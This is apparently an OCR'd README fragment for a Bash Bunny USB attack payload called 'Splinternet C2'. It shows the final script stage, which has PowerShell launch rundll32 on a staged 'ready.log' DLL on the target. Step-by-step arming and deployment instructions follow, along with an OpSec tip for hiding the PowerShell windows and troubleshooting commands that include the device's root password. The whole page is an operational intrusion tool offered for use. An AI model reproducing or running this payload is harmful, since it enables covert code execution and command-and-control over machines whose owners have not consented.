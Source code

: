```
while ! grep -Fq "GET \"/ready.log\"" ${SERVER_LOG}; do
    sleep .5
done

# STAGE 3 - POWERSHELL EXECUTE PAYLOAD
LED STAGE3
RUN WIN "powershell.exe \"Start-Process -FilePath \"C:\Windows\System32\RUNDLL32.EXE\"  -ArgumentList \"C:\Users\Public\ready.log,Main\"; exit\""

LED FINISH
```

### EXECUTION FOR SPLINTERNET C2
1. Place the BB switch in ARMING MODE. Position 3(arm). All the way towards the USB connector
2. Insert into ATTACKER box
3. Place the gohttp dpkg into the “tools” DIR
4. For a German target, verify that the de.json file is in the “languages” DIR
5. Place the “ready.log” and “payload.txt” file in the switch 2 DIR
6. Safely eject the BB
7. DO NOT change the switch position and re-insert the BB. The gohttp dpkg will be installed
8. Safely eject the BB
9. Place the switch in position 2 (middle)
10. Insert the BB into the TARGET machine


### GOTCHAS and TROUBLESHOOTING
1. The powershell windows are not currently hidden. If OpSec is a concern, add “-WindowStyle Hidden” to each powershell command.
2. Make sure VMs are not running on the TARGET system
3. Make sure RDP sessions are not open on the target system; this changes “/” on the keyboard
4. If the BB is inserted and a C2 connection is not established:
   - Connect to the BB - $ ssh root@172.16.64.1 (pw=hak5bunny
   - Verify that “ready.log” is in the /tmp folder - $ ls -la /tmp/
   - Verify that the go HTTP server is running on port 80 - $ ps -ef |grep go
   - Verify that the file can be retrieved - curl http://172.16.64.1/ready.log